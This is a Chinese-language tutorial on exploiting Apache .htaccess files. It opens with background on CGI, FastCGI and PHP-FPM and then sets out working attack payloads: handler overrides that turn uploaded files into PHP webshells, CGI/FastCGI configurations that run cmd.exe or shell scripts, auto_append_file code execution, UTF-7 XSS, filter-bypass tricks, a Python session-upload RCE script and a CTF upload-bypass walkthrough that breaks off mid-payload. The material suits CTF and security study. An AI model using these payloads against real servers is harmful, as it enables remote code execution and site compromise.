

# php .htaccess利用

[TOC]


## 0x01 php-fpm、fastcgi、cgi之间的关系

在整个网站架构中，Web Server（如Apache）只是内容的分发者。举个栗子，如果客户端请求的是 index.html，那么Web Server会去文件系统中找到这个文件，发送给浏览器，这里分发的是静态数据。


如果请求的是 index.php，根据配置文件，Web Server知道这个不是静态文件，需要去找 PHP 解析器来处理，那么他会把这个请求简单处理，然后交给PHP解析器。


当Web Server收到 index.php 这个请求后，会启动对应的 CGI 程序，这里就是PHP的解析器。接下来**PHP解析器会解析php.ini文件，初始化执行环境，然后处理请求，再以规定CGI规定的格式返回处理后的结果，退出进程，Web server再把结果返回给浏览器。**这就是一个完整的动态PHP Web访问流程，接下来再引出这些概念，就好理解多了，


- **CGI：**是 Web Server 与 Web Application 之间数据交换的一种协议。
- **FastCGI：**同 CGI，是一种通信协议，但比 CGI 在效率上做了一些优化。同样，SCGI 协议与 FastCGI 类似。
- **PHP-CGI：**是 PHP （Web Application）对 Web Server 提供的 CGI 协议的接口程序。
- **PHP-FPM：**是 PHP（Web Application）对 Web Server 提供的 FastCGI 协议的接口程序，额外还提供了相对智能一些任务管理。


## 0x02 Apache调用解析器的三种方式

第一种是最通用最常见的**Module方式**，即在httpd.conf中使用LoadModule的方式，将php的dll或者so文件加载到apache当中。

还有两种是**CGI方式**和**FastCGI方式**。其实后者用的越来越广泛了。一般PHP-FPM也是与FastCGI进行配合使用的。


#### Module方式

以 Apache 为例，在PHP Module方式中，是不是在 Apache 的配置文件 httpd.conf 中加上这样几句：

```xml
# 加入以下2句
LoadModule php5_module D:/php/php5apache2_2.dll
AddType application/x-httpd-php .php

# 修改如下内容
<IfModule dir_module>
    DirectoryIndex index.php index.html
</IfModule>
```

上面是 Windows 下安装php和apache环境后手动配置，在linux下源码安装大致是这样配置的：

```
# ./configure --with-mysql=/usr/local --with-apache=/usr/local/apache --enable-track-vars
```

所以，这种方式，他们的共同本质都是用 LoadModule 来加载 php5_module，就是**把php作为apache的一个子模块来运行**。当通过web访问php文件时，apache就会调用php5_module来解析php代码。


php5_module是怎么来将数据传给php解析器来解析php代码的呢？答案是通过**sapi**。


所以，以上的apache调用php执行的过程如下：

```
apache -> httpd -> php5_module -> sapi -> php
```


#### CGI方式

CGI（**Common Gateway Interface**）全称是“**通用网关接口**”，WEB 服务器与PHP应用进行“交谈”的一种工具，其程序须运行在网络服务器上。CGI可以用任何一种语言编写，只要这种语言具有标准输入、输出和环境变量。如php、perl、tcl等。


WEB服务器会传哪些数据给PHP解析器呢？**URL、查询字符串、POST数据、HTTP header**都会有。所以，CGI就是规定要传哪些数据，以什么样的格式传递给后方处理这个请求的协议。仔细想想，你在PHP代码中使用的用户从哪里来的。


也就是说，CGI就是专门用来和 web 服务器打交道的。web服务器收到用户请求，就会把请求提交给cgi程序（如php-cgi），cgi程序根据请求提交的参数作应处理（解析php），然后输出标准的html语句，返回给web服服务器，WEB服务器再返回给客户端，这就是普通cgi的工作原理。


CGI的好处就是完全独立于任何服务器，仅仅是做为中间分子。提供接口给apache和php。他们通过cgi搭线来完成数据传递。这样做的好处了尽量减少2个的关联，使他们2变得更独立。

但是CGI有个蛋疼的地方，就是每一次web请求都会有启动和退出过程，也就是最为人诟病的**fork-and-execute**模式，这样一在大规模并发下，就死翘翘了。


#### FastCGI方式

从根本上来说，FastCGI是用来提高CGI程序性能的。类似于CGI，**FastCGI也可以说是一种协议**。


FastCGI像是一个**常驻(long-live)型的CGI**，它可以一直执行着，只要激活后，不会每次都要花费时间去fork一次。它还支持分布式的运算, 即 FastCGI 程序可以在网站服务器以外的主机上执行，并且接受来自其它网站服务器来的请求。


FastCGI是语言无关的、可伸缩架构的CGI开放扩展，其主要行为是将CGI解释器进程保持在内存中，并因此获得较高的性能。众所周知，CGI解释器的反复加载是CGI性能低下的主要原因，如果CGI解释器保持在内存中，并接受FastCGI进程管理器调度，则可以提供良好的性能、伸缩性、Fail- Over特性等等。


##### FastCGI的工作原理

FastCGI接口方式采用C/S结构，可以将HTTP服务器和脚本解析服务器分开，同时在脚本解析服务器上启动一个或者**多个脚本解析守护进程**。当HTTP服务器每次遇到动态程序时，可以将其直接交付给FastCGI进程来执行，然后将得到的结果返回给浏览器。这种方式可以让HTTP服务器专一地处理静态请求，或者将动态脚本服务器的结果返回给客户端，这在很大程度上提高了整个应用系统的性能。




1. Web Server启动时载入FastCGI进程管理器（Apache Module或IIS ISAPI等)
2. FastCGI进程管理器自身初始化，启动多个CGI解释器进程(可建多个php-cgi)，并等待来自Web Server的连接。
3. 当客户端请求到达Web Server时，FastCGI进程管理器选择并连接到一个CGI解释器。Web server将CGI环境变量和标准输入发送到FastCGI子进程php-cgi。
4. FastCGI子进程完成处理后，将标准输出和错误信息从同一连接返回Web  Server。当FastCGI子进程关闭连接时，请求便告处理完成。**FastCGI子进程接着等待，并处理来自FastCGI进程管理器(运行在Web Server中)的下一个连接。 在CGI模式中，php-cgi在此便退出了。**

FastCGI与CGI特点：

1. **对于CGI来说，每一个Web请求PHP都必须重新解析php.ini、重新载入全部扩展，并重新初始化全部数据结构。而使用FastCGI，所有这些都只在进程启动时发生一次。**一个额外的好处是，持续数据库连接(Persistent database connection)可以工作。

2. 由于FastCGI是多进程，所以比CGI多线程消耗更多的服务器内存，php-cgi解释器每进程消耗7至25兆内存，将这个数字乘以50或100就是很大的内存数。

   

#### PHP-FPM

要了解PHP-FPM，就得先说说PHP-CGI。

**PHP-CGI就是PHP实现的自带的FastCGI管理器**。 虽然是php官方出品，但是这丫的却一点也不给力，性能太差，而且也很麻烦不人性化，主要体现在：

1. php-cgi变更php.ini配置后，需重启php-cgi才能让新的php-ini生效，不可以平滑重启。
2. 直接杀死php-cgi进程，php就不能运行了。

上面2个问题，一直让很多人病垢了很久，所以很多人一直还是在用 Module 方式。 直到 2004年一个叫 Andrei Nigmatulin的屌丝发明了PHP-FPM ，这神器的出现就彻底打破了这种局面，这是一个PHP专用的 fastcgi 管理器，它很爽的克服了上面2个问题，而且，还表现在其他方面更表现强劲。


也就是说，PHP-FPM 是对于 FastCGI 协议的具体实现，他负责管理一个进程池，来处理来自Web服务器的请求。**目前，PHP5.3版本之后，PHP-FPM是内置于PHP的**。


因为PHP-CGI只是个CGI程序，他自己本身只能解析请求，返回结果，不会进程管理。所以就出现了一些能够调度 php-cgi 进程的程序，比如说由lighthttpd分离出来的spawn-fcgi。同样，PHP-FPM也是用于调度管理PHP解析器php-cgi的管理程序。

PHP-FPM通过生成新的子进程可以实现php.ini修改后的平滑重启。


### 总结


所以，如果要搭建一个高性能的PHP WEB服务器，目前最佳的方式是**Apache/Nginx** + **FastCGI** + **PHP-FPM(+PHP-CGI)**方式了，不要再使用 Module加载或者 CGI 方式啦：）


## 0x03 .htaccess基本使用

### .htaccess文件使用前提

.htaccess的主要作用就是实现url改写，也就是当浏览器通过url访问到服务器某个文件夹时，作为主人，我们可以来接待这个url，具体地怎样接待它，就是此文件的作用。所有的访问都是通过URL实现，所以.htaccess的作用非同小可。正因为此，所以一般地网站通过设置.htaccess，通过一个十分友好的url吸引用户进来，然后用.htaccess把用户带到需要访问的位置。

要想使用这个强大功能，就得开启apache里面的重写模块。


前面的文章中曾经讲到过[windows和ubuntu开启 rewrite模块使用.htaccess](http://www.nbphp.com/blog/windows-ubuntu-open-rewrite-mod-htaccess/) 。

其实开启模块大体的步骤都是一样的，无论是Windows和linux。


### .htaccess基本语法介绍

开启重写引擎 ：RewriteEngine on

设置重写的根目录：RewriteBase /   — 说明 ：因为定义了这个文件夹，所以对应的替换就有了一个参照。

匹配所有符合条件的请求：RewriteCond    — 说明：RewriteCond  定义了一系列规则条件，这个指令可以有一条或者多条，只有用户拿来的url符合这些条件之后，我们的.htaccess才开始接待，否则用户就直接自己去访问所需要的目录了。

举个例子，为了能让搜索引擎更多地抓取我们的网页而避免重复抓，我们通常把没有www的域名重定向到www.XXX.com，如下就实现了这个功能：

RewriteEngine On

```
RewriteCond %{HTTP_HOST}  ^nbphp\.com$ [NC]

RewriteRule ^(.*)$  http://www.nbphp.com/$1 [R=301,L]
```

上例便把nbphp.com 重定向到www.nbphp.com

%{HTTP_HOST} 是指取得用户访问的URL的主域名  然后空格后面是一个正则表达式匹配，意识就是说是否是 nbphp.com 。

**如果用户访问使用的URL满足所有列出的RewriteCond 提出的条件，那么进行下一步RewriteRule 即开始进行引导**，这才开始实现.htaccess文件的重要功能。

同样，前面是正则表达式，**用户分析用户的除了主域名nbphp.com之外的URL** ,^(.*)$的意思就是所有的内容。 然后空格后面写的是我们引导用户访问的目录，我们带着他走到新的一个域名上。$1 指的是前面括号里匹配url所得到的内容。

这样就是一个完整的小例子。关于RewriteCond里 如何调用url的某个部分，我们可以参考这篇文章（[Apache的Mod_rewrite学习 (RewriteCond重写规则的条件](http://blog.csdn.net/keyunq/archive/2008/06/11/2536875.aspx))；


我们来分析一下 [discuz7.0 搜索引擎优化 htaccess ](http://www.phplamp.org/2009/01/discuz7-htaccess-download/)里面的重写。

```
RewriteRule ^forum-([0-9]+)-([0-9]+)\.html$  forumdisplay.php?fid=$1&page=$2
```

首先加入用户通过 nbphp.com/forum-2-3.html  访问discuz论坛，那么先通过.htaccess过滤，看看是否需要.htaccess引导一下用户，如果满足列出的一系列RewriteCond的条件那么就进行重写，**discuz的没有列出RewriteCond 所以应该全部都进行重写**。所以开始进行转写，forum-2-3.html 这个正好符合  列出的^forum-([0-9]+)-([0-9]+)\.html$ 正则表达式。并且 $1 为 2  ，$2为3 ，所以代入后面，即  forumdisplay.php?fid=2&page=3 加上前面的RewriteBase  指定的文件目录，那么就带他到制定目录的forumdisplay.php?fid=2&page=3 。


### 常见的.htaccess应用举例


**防止盗链，如果来得要访问jpe jpg bmp png结尾的url 用户不是来自我们的网站，那么让他看一张我们网站的展示图片。**

RewriteEngine On

RewriteCond %{HTTP_REFERER} !^http://(.+.)?mysite.com/ [NC]

RewriteCond %{HTTP_REFERER} !^$

RewriteRule .*.(jpe?g|gif|bmp|png)$ /images/nohotlink.jpg [L]


**网站升级的时候，只有特定IP才能访问，其他的用户将看到一个升级页面**

RewriteEngine on

RewriteCond %{REQUEST_URI} !/upgrade.html$

RewriteCond %{REMOTE_HOST} !^24\.121\.202\.30

RewriteRule $ http://www.nbphp.com/upgrade.html [R=302,L]


**把老的域名转向新域名**

\# redirect from old domain to new domain

RewriteEngine On

RewriteRule ^(.*)$http://www.yourdomain.com/$1[R=301,L]


### 一些其他功能


**引出错误文档的目录**

ErrorDocument 400 /errors/badrequest.html

ErrorDocument 404  http://yoursite/errors/notfound.html

ErrorDocument 401 “Authorization Required


**Blocking users by IP 根据IP阻止用户访问**

order allow,deny

deny from 123.45.6.7

deny from 12.34.5. (整个C类地址)

allow from all


**防止目录浏览**

\# disable directory browsing

Options All -Indexes


**设置默认首页**

\# serve alternate default index page

DirectoryIndex about.html


**把一些老的链接转到新的链接上——搜索引擎优化SEO**

Redirect 301 /d/file.htmlhttp://www.htaccesselite.com/r/file.html


**为服务器管理员设置电子邮件。**

ServerSignature EMail

SetEnv SERVER_ADMINdefault@domain.com


## 0x04 .htaccess生效方法

`vim /etc/apache2/apache2.conf`


## 0x05 .htaccess利用方式


### SetHandler 解析利用

#### 1. 解析成php——getshell

```
SetHandler application/x-httpd-php
```

此时当前目录及其子目录下所有文件都会被当做php解析


#### 2. 解析成文本——查看源码

```xml
<FilesMatch "\.php$" >
    SetHandler text/plain
</FilesMatch>
```

可以将当前目录下文件都当做文本解析，这样便可获得文件源码


或者用下面的方法：

```
php_flag engine 0
```


#### 3. server-status——监控访问


可添加参数`?refresh=5`来实现每隔5s自动刷新

可以监控所有的访问。但是信息不够多，还可以想想有没有附加的配置项。


#### 4. 解析成lua脚本——绕过disable_functions

实际上是执行lua脚本。需要有apache-lua 模块，lua脚本能干的事情都能干，不运行php自然就不需要考虑disable_function的影响。


handler


```lua
require "string"

--[[
     This is the default method name for Lua handlers, see the optional
     function-name in the LuaMapHandler directive to choose a different
     entry point.
--]]

function handle(r)
    r.content_type = "text/plain"
    r:puts("Hello Lua World!\n")
    local t = io.popen('/readflag')
    local a = t:read("*all")
    r:puts(a)
    if r.method == 'GET' then
        for k, v in pairs( r:parseargs() ) do
            r:puts( string.format("%s: %s\n", k, v) )
        end
    else
        r:puts("Unsupported HTTP method " .. r.method)
    end
end
```


### CGI启动方式RCE利用

当我们了解原理后，Apache是需要调用第三方CGI程序，但是一个程序是不是CGI程序这个事很难界定，我们能否通过调用特定的CGI程序(普通程序)来执行任意系统命令呢。答案是可以的。


#### mod_cgi 模块

具有处理程序`cgi-script`的任何文件都将被视为  CGI 脚本，并由服务器运行，并将其输出返回给 Client 端。文件通过具有包含由[AddHandler](https://www.docs4dev.com/docs/zh/apache/2.4/reference/mod-mod_mime.html#addhandler)指令定义的 extensions 的名称或位于[ScriptAlias](https://www.docs4dev.com/docs/zh/apache/2.4/reference/mod-mod_alias.html#scriptalias)目录中来获取此处理程序。


#### 利用条件

> ​	1.保证htaccess会被解析，即当前目录中配置了`AllowOverride all或AllowOverride Options FileInfo。AllowOverride参数具体作用可参考Apache之AllowOverride参数详解。(Require all granted也是需要的)
>
> ​	2.cgi_module被加载。即apache配置文件中有LoadModule cgi_module modules/mod_cgi.so这么一句且没有被注释。
>
> ​	3.有目录的上传、写入权限。


#### 利用姿势

上传.htaccess  文件, 内容如下：

```
Options ExecCGI
AddHandler cgi-script .xx
```

Options ExecCGI表示允许CGI执行，如果AllowOverride只有FileInfo权限且本身就开启了ExecCGI的话，就可以不需要这句话了。

Options +ExecCGI 作用相同。


第二句告诉Apache**将xx后缀名的文件，当做CGI程序进行解析**。


windows，上传poc.xx文件，内容如下：

```
#!C:/Windows/System32/cmd.exe /c start calc.exe
```


linux，

```bash
#!/bin/bash
echo Content-type: text/html
echo ""
cat /flag
```

这里需要注意脚本的格式，不知道为什么，这里去掉echo ""就无法执行成功，可能与cgi脚本的格式有关系。


linux环境下，也是随你玩，是直接调用**/bin/bash**还是调用**/usr/bin/python**来反弹Shell。都是可以的。这其实也就是正常使用方式，因为Python也会被用作为CGI解析程序。


### FastCGI启动方式RCE利用

​	我们再来看看FastCGI模式的，这个依赖的是mod_fcgid.so，默认安装包里甚至没有这个so文件，不过在PHPStudy的默认配置中，就已经是加载了的，并且AllowOverride也是All权限，手动斜眼。

​	其实还有mod_proxy_fcgi，更为常见，也是默认开启的，还不清楚能否利用，表哥表姐们可以尝试一下。


#### 利用条件

> 1.AllowOverride all或AllowOverride Options FileInfo。
>
> 2.mod_fcgid.so被加载。即apache配置文件中有LoadModule fcgid_module modules/mod_fcgid.so
>
> 3.有目录的上传、写入权限。


#### 利用姿势

上传.htaccess  文件, 内容如下：

```
Options +ExecCGI
AddHandler fcgid-script .abc
FcgidWrapper "C:/Windows/System32/cmd.exe /c start cmd.exe" .abc
```

老样子，如果默认就开启了ExecCGI，则第一句可以省略。

第二句表示，abc后缀名的文件需要被fcgi来解析。AddHandler还可以换成AddType。

再上传1.abc。内容无所谓。


### proxy_fcgi启动方式RCE利用


### 使用相对路径

其实一些小伙伴也已经发现了，上面的问题再配合有上传漏洞，我甚至可以穿个马上去。但是无论是CGI还是FastCGI似乎都是绝对路径，相对路径可不可以呢？

经过了一些尝试，并请教了"裤衩哥",发现相对路径也是可以的，起始点似乎和session.save_path变量的值是一致的。如图，比如phpstudy当中，起始点就是在\Extensions\tmp\tmp中。


#### 1. 解析成php

那么，比如说我想要html后缀使用php来解析。就可以这样写。

```
AddHandler fcgid-script .html
FcgidWrapper "../../php/php7.3.4nts/php-cgi.exe" .html
```


再来，我想调用网站根目录的calc.exe。可以这样。

```
AddHandler fcgid-script .xx
FcgidWrapper "../../../WWW/localhost/calc.exe" .xx
```


不过计算器无法正常弹出。23333 我猜应该是因为calc毕竟不是个标准CGI程序导致的吧。而且也没必要绕这么大个圈子，就没继续测试了。


### AddType 文件类型解析利用

#### 1. 解析成php

```
AddType application/x-httpd-php .a
```


#### 2. php_value 配置选项利用

这种方式可通过`php_value`来配置PHP的配置选项；

查看[配置可被设定的范围](https://www.php.net/manual/zh/configuration.changes.modes.php)：


从上图可知，.htaccess可以使两种配置模式生效：`PHP_INI_PREDIR`和`PHP_INI_ALL`


可查看[php.ini配置选项列表](https://www.php.net/manual/zh/ini.list.php)，从中寻找可利用的配置项


##### 2.1 使用文件包含的两个相关配置

- `auto_prepend_file`：指定一个文件，在主文件解析之前自动解析
- `auto_append_file`：指定一个文件，在主文件解析后自动解析


编辑.htaccess，内容为：

```
php_value auto_prepend_file webshell
```

编辑`webshell`，内容为：

```
<?=phpinfo();
```

此时随便找一个php文件访问：


**然后就是各种文件包含的操作**


由于通过设置这两个选项进行文件包含，那么便可使用相关的php协议流，如`php://filter`，可用来绕过对一些关键字的检测


##### 2.2 绕过preg_match利用

查看官方文档中的相关配置：


编辑.htaccess：

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```

测试：


### 使.htaccess文件可访问

默认情况下，.htaccess是不可访问的：


那么编辑.htaccess文件，添加如下配置：

```
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
```

测试：


### .htaccess shell 与 XSS

例如下面这个.htaccess文件，首先设置了禁用拒绝规则，这样便可直接访问到.htaccess；接着用`SetHandler`将所有文件作为php解析，最后写入php代码，开头用`#`注释掉，这样便可成功解析.htaccess，然后解析php：

```xml
<Files ~ "^.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>
SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```


相关的关于.htaccess的shell，可参考github上一个项目：里面有各种语言的shell。

https://github.com/wireghoul/htshells


#### php code execution

index.php: (empty)

.htaccess:

```
php_value auto_append_file .htaccess
#<?php phpinfo();
```


#### (direct/remote) file inclusion（不可用）

index.php: (empty)

.htaccess:

```
php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://sektioneins.de/evil-code.txt
```


打开allow_url_include 后，可以直接远程文件包含，也可以用data协议getshell


**查阅文档后发现allow_url_include不可用htaccess来进行修改**


此项无效


#### XSS and PHP code execution with UTF-7

index.php: (empty)

.htaccess:

```
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
#+ADw-script+AD4-alert(1)+ADsAPA-/script+AD4 #+ADw?php phpinfo()+ADs
```


`+ADw-script+AD4-alert(1)+ADsAPA-/script+AD4`

解码后为

`<script>alert(1);</script>`


#### XSS via error message link extension

index.php:

```
<?php
include('foo');
```

.htaccess:

```
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "x"
php_value docref_ext "<script>alert(1);</script>"
```


#### XSS via highlight_file() color

index.phps:

```php
<?php
highlight_file(__FILE__);
// comment
?>
```

.htaccess:

```
php_value highlight.comment '"><script>alert(1);</script>'
```


#### Source code disclosure（直接查看源码）

.htaccess:

```
php_flag engine 0
```


## 0x06 Bypass方式

### 1.关键字检测

#### 1.1 过滤了.htaccess常用的关键字

如果过滤了.htaccess常用的关键字，此时可以使用反斜线来绕过对关键字的过滤，反斜线后需要加上换行符，并且反斜线前和关键字无空格

例如：

```
AddT\
ype application/x-httpd-php .abc
```


#### 1.2 过滤了`<?`等php字符串

如果检测不能含有`<?`等php字符串，那么此时可先将shell字符串进行编码，然后在文件包含时通过`php://filter`解码：


```
php://filter/read=convert.base64-decode/resource=2.abc
```


也可以直接写在htaccess文件中

```
AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.wuwu"
```


#### 1.3 直接进行其他编码

通过UTF-7、UTF-16等进行编码

[](https://p1.ssl.qhimg.com/t01c5a05b61a6155478.png)

编辑.htaccess：

```
AddType application/x-httpd-php .aaa
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

之后将后缀`.aaa`文件的内容进行相应编码即可


实际上文件包含会直接进行解码

不使用上述配置一样可行


#### 1.4 拼接无用字符

可以使用`#`来注释掉后面拼接的多余内容，`#`需要和前面的内容隔一个空格，并且`#`只能注释一行内容，可以使用反斜线来转义换行符，从而注释多行内容

例如下面这个.htaccess文件是可以生效的：

```
AddT\
ype application/x-httpd-php .abc #\
asdf \
asdf
```


除了`#`外，**`0x00`**也可以当注释符，使用`write.php`脚本写入.htaccess：

```php
<?php
$data = urldecode('AddType application/x-httpd-php .abc%0a%00asdf');
file_put_contents('.htaccess', $data);
```

测试：


### 2. 文件格式检测（绕过exif_imagetype）

#### 2.1 使用XBM图像

```php
<?php
// 创建空白图像并添加文字
$im = imagecreatetruecolor(120, 20);
$text_color = imagecolorallocate($im, 233, 14, 91);
imagestring($im, 1, 5, 5,  'A Simple Text String', $text_color);

// 保存图像
imagexbm($im, '1.png');

// 释放内存
imagedestroy($im);
?>
```

(下面的`1_png_width`以及`1_png_height`是根据文件名进行拼接生成的)


那么可以在.htaccess前面加上：

```
#define 1_png_width 120
#define 1_png_height 20
```

便可绕过对文件格式的检测


#### 2.2 使用WBMP图像

使用WBMP图像，使用PHP生成图像：

```php
<?php
$img = imagecreatetruecolor(20, 20);
imagewbmp($img, '1.wbmp');
?>
```

使用16进制编辑器查看：


可以看到这种图像格式是以`0x00`开头的，那么便可以此方式绕过对文件格式的检测


### 3. session 文件包含

若过滤了`<`、数字、`:`等，此时便不能使用`php://filter`或者UTF编码的方式绕过了；可尝试利用.htaccess设置包含指定的文件。例如对于session文件，可通过包含上传文件产生的临时session进行RCE

查看配置文件，发现大部分session相关的配置都是可以通过.htaccess修改的：


那么我们可以在不知道session存储路径的情况下，通过`session.save_path`指定存储路径，并且可以将`session.upload_progress.cleanup`设置为off，这样便可无需条件竞争来将代码写到session文件中，从而包含rce；编辑.htaccess：


```
php_value auto_append_file "/tmp/sess_gtfly"
php_value session.save_path "/tmp"
php_flag session.upload_progress.cleanup off
```

由于关掉了cleanup，所以不用竞争了

payload

```python
import requests

url='http://127.0.0.1/test.php'

headers={
    "Cookie":'PHPSESSID=gtfly'
}

files={
    "upload":''
}

data={
    "PHP_SESSION_UPLOAD_PROGRESS": '''<?php echo system('whoami'); ?>'''
     }

r = requests.session()

r.post(url,files=files,headers=headers,data=data)

t = r.get('http://127.0.0.1/test.php',headers=headers)

print(t.text)
```


## 0x06 相关例题

### [insomnihack](https://github.com/eboda/insomnihack)——l33t_hoster

```php
 <?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) {
    $_SESSION["home"] = bin2hex(random_bytes(20));
}
$userdir = "images/{$_SESSION["home"]}/";
if (!file_exists($userdir)) {
    mkdir($userdir);
}

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) {
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) {
        die("yuuuge fail");
    }

    $tmp_name = $_FILES["image"]["tmp_name"];
    $name = $_FILES["image"]["name"];
    $parts = explode(".", $name);
    $ext = array_pop($parts);

    if (empty($parts[0])) {
        array_shift($parts);
    }

    if (count($parts) === 0) {
        die("lol filename is empty");
    }

    if (in_array($ext, $disallowed_ext, TRUE)) {
        die("lol nice try, but im not stupid dude...");
    }

    $image = file_get_contents($tmp_name);
    if (mb_strpos($image, "<?") !== FALSE) {
        die("why would you need php in a pic.....");
    }

    if (!exif_imagetype($tmp_name)) {
        die("not an image.");
    }

    $image_size = getimagesize($tmp_name);
    if ($image_size[0] !== 1337 || $image_size[1] !== 1337) {
        die("lol noob, your pic is not l33t enough");
    }

    $name = implode(".", $parts);
    move_uploaded_file($tmp_name, $userdir . $name . "." . $ext);
}

echo "<h3>Your <a href=$userdir>files</a>:</h3><ul>";
foreach(glob($userdir . "*") as $file) {
    echo "<li><a href='$file'>$file</a></li>";
}
echo "</ul>";

?>

<h1>Upload your pics!</h1>
<form method="POST" action="?" enctype="multipart/form-data">
    <input type="file" name="image">
    <input type="submit" name=upload>
</form>
<!-- /?source -->
1
```

- 文件名必须要包含`.`

- 设置了文件后缀黑名单`"php","php3","php4","php5","php7","pht","phtm","phtml","phar","phps"`,黑名单非常完善。

  - 如果文件名是通过get或post获取的，可采用`php\n`的方式绕过
  - 如果存在`.htaccess`可以通过上传`.htaccess`达到其他后缀的效果
  - 如果获取文件后缀的方式有问题，可以通过`php/.` 方式绕过

- 文件内容不能包含`<?`

  - 通过php小于7.0的可以通过`<script lanague='php'>` 绕过

  - ```php
    7.0.0   The ASP tags <%, %>, <%=, and the script tag <script language="php"> are removed from PHP.
    5.4.0   The tag <?= is always available regardless of the short_open_tag ini setting.
    ```

  - 如果能够控制文件名开头可以通过伪协议绕过：`php://filter` 等

- 文件要通过`exif_imagetype`的检查

  - 只检查文件头

- 图片的height和width要是1337


我们需要上传.htaccess但是如下代码会进行后缀提取

```php
    $parts = explode(".", $name);
    $ext = array_pop($parts);
```


但是后面的代码使得我们可以绕过

```php
if (empty($parts[0])) {
        array_shift($parts);
    }
```


**array_shift()** 将 `array` 的第一个单元移出并作为结果返回，将 `array` 的长度减一并将所有其它单元向前移动一位。所有的数字键名将改为从零开始计数，文字键名将不变。


filename 为..htaccess即可绕过


下一步是考虑.htaccess文件的内容

- exif_imagetype() 支持的magic number
- `AddType application/x-httpd-php .wuwu`
- 还要能正确解析


之前提到以0x00也是可以当做注释的。所以可以中找找以0x00开头的图片


https://github.com/php/php-src/blob/e219ec144ef6682b71e135fd18654ee1bb4676b4/ext/standard/image.c

php源码中对于图片头的检查如下：

```c
PHPAPI const char php_sig_gif[3] = {'G', 'I', 'F'};
PHPAPI const char php_sig_psd[4] = {'8', 'B', 'P', 'S'};
PHPAPI const char php_sig_bmp[2] = {'B', 'M'};
PHPAPI const char php_sig_swf[3] = {'F', 'W', 'S'};
PHPAPI const char php_sig_swc[3] = {'C', 'W', 'S'};
PHPAPI const char php_sig_jpg[3] = {(char) 0xff, (char) 0xd8, (char) 0xff};
PHPAPI const char php_sig_png[8] = {(char) 0x89, (char) 0x50, (char) 0x4e, (char) 0x47,
                                    (char) 0x0d, (char) 0x0a, (char) 0x1a, (char) 0x0a};
PHPAPI const char php_sig_tif_ii[4] = {'I','I', (char)0x2A, (char)0x00};
PHPAPI const char php_sig_tif_mm[4] = {'M','M', (char)0x00, (char)0x2A};
PHPAPI const char php_sig_jpc[3]  = {(char)0xff, (char)0x4f, (char)0xff};
PHPAPI const char php_sig_jp2[12] = {(char)0x00, (char)0x00, (char)0x00, (char)0x0c,
                                     (char)0x6a, (char)0x50, (char)0x20, (char)0x20,
                                     (char)0x0d, (char)0x0a, (char)0x87, (char)0x0a};
PHPAPI const char php_sig_iff[4] = {'F','O','R','M'};
PHPAPI const char php_sig_ico[4] = {(char)0x00, (char)0x00, (char)0x01, (char)0x00};
PHPAPI const char php_sig_riff[4] = {'R', 'I', 'F', 'F'};
PHPAPI const char php_sig_webp[4] = {'W', 'E', 'B', 'P'};


```

满足要求的有jp2和ico

但是ico的长度最多是0xff，为1337是0x539

jp2 只修改header不能改变getimagesize的结果


查询到wbmp图像可以


然后用此链接https://image.online-convert.com/convert-to-wbmp生成一个1337*1337大小的图像，然后删除只留`00008A398A39` 这些即可满足type为wbmp长宽高为1337

```bash
root@drom-virtual-machine:/home/drom/图片# xxd 11.wbmp  | head
00000000: 0000 8a39 8a39 ffff ffff ffff ffff ffff  ...9.9..........
00000010: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000020: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000030: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000040: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000050: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000060: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000070: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000080: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000090: ffff ffff ffff ffff ffff ffff ffff ffff  ................

```

文件头为0000 8a39 8a39，只留这部分即可


对于不能写<?可以使用php://filter/covert.base64-decode/resource=shell.wuwu

```
AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/images/1222a98e5b5a6fd81ff8761be852e16e75b18703/shell.wuwu"
```


还需要考虑的是在base64decode后能够正常反序列化出语句。

```python
shell = b"\x00\x00\x8a\x39\x8a\x39"+b"\x39\x39"+ base64.b64encode(b"<?php phpinfo();?>")

```

可以编码的字符为\x39，由于前面只有两个，而base64是4个一组，所以需要再填充两个字符，b"\x39\x39"


payload

```python
import requests
import base64
url = 'http://192.168.1.22:8000/index.php'

php_sessionID = "tj3kr62k12a7nrj33evue8qkhq"

Cookies = {
    'XDEBUG_SESSION':'XDEBUG_ECLIPSE',
    'PHPSESSID':php_sessionID
}

file_content = b"""\x00\x00\x8a\x39\x8a\x39
